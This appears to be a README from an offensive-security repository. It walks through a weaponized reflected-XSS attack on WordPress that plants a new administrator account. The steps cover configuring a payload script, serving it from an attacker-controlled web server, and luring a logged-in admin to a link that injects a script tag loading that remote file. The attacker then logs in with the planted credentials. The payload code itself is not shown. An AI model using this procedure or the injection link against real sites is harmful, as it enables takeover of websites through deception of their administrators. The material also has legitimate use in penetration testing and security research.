 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccWP.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: minimum password length is 9 characters)

    `newAccEmail` - email of the user account to be created

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.15/createAdminAccWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.15` - web server hosting payload

5. [post exploit] attacker logs into target WordPress site using specified credentials

    http://192.168.5.10/wp-login.php

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/CreateNewAdmin/screenshots/WordPress_-_create_new_admin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/CreateNewAdmin/screenshots/WordPress_-_create_new_admin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

<video src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/refs/heads/main/CMS/WordPress/CreateNewAdmin/screenshots/WordPress_-_create_new_admin_-_1-1.mp4"></video>
